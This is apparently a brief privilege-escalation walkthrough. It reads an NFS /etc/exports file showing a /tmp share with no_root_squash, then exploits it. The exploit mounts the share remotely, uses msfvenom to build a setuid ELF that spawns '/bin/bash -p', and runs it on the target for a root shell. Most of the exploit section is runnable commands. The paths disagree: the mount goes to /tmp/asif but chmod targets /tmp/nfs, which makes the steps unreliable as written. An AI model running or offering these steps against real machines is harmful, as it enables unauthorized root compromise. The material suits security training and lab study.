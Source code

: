    
   
   
 ### Type Command
 
     cat /etc/exports
     
 ### OUTPUT 
 
         /etc/exports: the access control list for filesystems which may be exported
         #		to NFS clients.  See exports(5).
         #
         # Example for NFSv2 and NFSv3:
         # /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
         #
         # Example for NFSv4:
         # /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
         # /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
         #

         /tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)

         #/tmp *(rw,sync,insecure,no_subtree_check)


  ### Exploit
  
  Open Your LOCAL MACHINE AND TYPE COMMAND
  
    mkdir /tmp/asif
    mount -o rw,vers=2 <Target IP>:/tmp /tmp/asif
    msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/asif/shell.elf
    chmod +xs /tmp/nfs/shell.elf
  Type A Remote Machine
    /tmp/shell.elf
